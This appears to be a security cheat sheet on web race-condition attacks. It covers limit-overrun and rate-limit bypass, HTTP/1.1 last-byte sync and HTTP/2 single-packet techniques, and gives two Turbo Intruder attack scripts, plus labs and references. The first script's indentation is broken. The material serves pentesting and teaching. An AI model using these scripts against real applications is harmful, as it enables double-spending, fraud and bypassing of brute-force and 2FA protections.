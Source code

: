# Race Condition

> Race conditions may occur when a process is critically or unexpectedly dependent on the sequence or timings of other events. In a web application environment, where multiple requests can be processed at a given time, developers may leave concurrency to be handled by the framework, server, or programming language.


## Summary

- [Tools](#tools)
- [Methodology](#methodology)
  - [Limit-overrun](#limit-overrun)
  - [Rate-limit bypass](#rate-limit-bypass)
- [Techniques](#techniques)
  - [HTTP/1.1 last-byte synchronization](#http11-last-byte-synchronization)
  - [HTTP/2 Single-packet attack](#http2-single-packet-attack)
- [Turbo Intruder](#turbo-intruder)
  - [Example 1](#example-1)
  - [Example 2](#example-2)
- [Labs](#labs)
- [References](#references)


## Tools

- [PortSwigger/turbo-intruder](https://github.com/PortSwigger/turbo-intruder) - a Burp Suite extension for sending large numbers of HTTP requests and analyzing the results.
- [JavanXD/Raceocat](https://github.com/JavanXD/Raceocat) - Make exploiting race conditions in web applications highly efficient and ease-of-use.
- [nxenon/h2spacex](https://github.com/nxenon/h2spacex) - HTTP/2 Single Packet Attack low Level Library / Tool based on Scapy‌ + Exploit Timing Attacks


## Methodology

### Limit-overrun

Overdrawing limit, multiple voting, multiple spending of a giftcard.

**Examples**:

- [Race Condition allows to redeem multiple times gift cards which leads to free "money" - @muon4](https://hackerone.com/reports/759247)
- [Race conditions can be used to bypass invitation limit - @franjkovic](https://hackerone.com/reports/115007)
- [Register multiple users using one invitation - @franjkovic](https://hackerone.com/reports/148609)


### Rate-limit bypass

Bypassing anti-bruteforce mechanism and 2FA.

**Examples**:

- [Instagram Password Reset Mechanism Race Condition - Laxman Muthiyah](https://youtu.be/4O9FjTMlHUM)


## Techniques

### HTTP/1.1 last-byte synchronization

Send every requests except the last byte, then "release" each request by sending the last byte.

Execute a last-byte synchronization using Turbo Intruder

```py
engine.queue(request, gate='race1')
engine.queue(request, gate='race1')
engine.openGate('race1')
```

**Examples**:

- [Cracking reCAPTCHA, Turbo Intruder style - James Kettle](https://portswigger.net/research/cracking-recaptcha-turbo-intruder-style)


### HTTP/2 Single-packet attack

In HTTP/2 you can send multiple HTTP requests concurrently over a single connection. In the single-packet attack around ~20/30 requests will be sent and they will arrive at the same time on the server. Using a single request remove the network jitter.

- [turbo-intruder/race-single-packet-attack.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race-single-packet-attack.py)
- Burp Suite
  - Send a request to Repeater
  - Duplicate the request 20 times (CTRL+R)
  - Create a new group and add all the requests
  - Send group in parallel (single-packet attack)

**Examples**:

- [CVE-2022-4037 - Discovering a race condition vulnerability in Gitlab with the single-packet attack - James Kettle](https://youtu.be/Y0NVIVucQNE)


## Turbo Intruder

### Example 1

1. Send request to turbo intruder
2. Use this python code as a payload of the turbo intruder

   ```python
   def queueRequests(target, wordlists):
       engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False
                           )

   for i in range(30):
       engine.queue(target.req, i)
           engine.queue(target.req, target.baseInput, gate='race1')


       engine.start(timeout=5)
   engine.openGate('race1')

       engine.complete(timeout=60)


   def handleResponse(req, interesting):
       table.add(req)
   ```

3. Now set the external HTTP header x-request: %s - :warning: This is needed by the turbo intruder
4. Click "Attack"


### Example 2

This following template can use when use have to send race condition of request2 immediately after send a request1 when the window may only be a few milliseconds.

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    request1 = '''
POST /target-URI-1 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>

parameterName=parameterValue
    '''

    request2 = '''
GET /target-URI-2 HTTP/1.1
Host: <REDACTED>
Cookie: session=<REDACTED>
    '''

    engine.queue(request1, gate='race1')
    for i in range(30):
        engine.queue(request2, gate='race1')
    engine.openGate('race1')
    engine.complete(timeout=60)
def handleResponse(req, interesting):
    table.add(req)
```


## Labs

- [PortSwigger - Limit overrun race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun)
- [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
- [PortSwigger - Bypassing rate limits via race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits)
- [PortSwigger - Multi-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint)
- [PortSwigger - Single-endpoint race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)
- [PortSwigger - Exploiting time-sensitive vulnerabilities](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
- [PortSwigger - Partial construction race conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction)


## References

- [Beyond the Limit: Expanding single-packet race condition with a first sequence sync for breaking the 65,535 byte limit - @ryotkak - August 2, 2024](https://flatt.tech/research/posts/beyond-the-limit-expanding-single-packet-race-condition-with-first-sequence-sync/)
- [DEF CON 31 - Smashing the State Machine the True Potential of Web Race Conditions - James Kettle (@albinowax) - September 15, 2023](https://youtu.be/tKJzsaB1ZvI)
- [Exploiting Race Condition Vulnerabilities in Web Applications - Javan Rasokat - October 6, 2022](https://conference.hitb.org/hitbsecconf2022sin/materials/D2%20COMMSEC%20-%20Exploiting%20Race%20Condition%20Vulnerabilities%20in%20Web%20Applications%20-%20Javan%20Rasokat.pdf)
- [New techniques and tools for web race conditions - Emma Stocks - August 10, 2023](https://portswigger.net/blog/new-techniques-and-tools-for-web-race-conditions)
- [Race Condition Bug In Web App: A Use Case - Mandeep Jadon - April 24, 2018](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)
- [Race conditions on the web - Josip Franjkovic - July 12, 2016](https://www.josipfranjkovic.com/blog/race-conditions-on-web)
- [Smashing the state machine: the true potential of web race conditions - James Kettle (@albinowax) - August 9, 2023](https://portswigger.net/research/smashing-the-state-machine)
- [Turbo Intruder: Embracing the billion-request attack - James Kettle (@albinowax) - January 25, 2019](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack)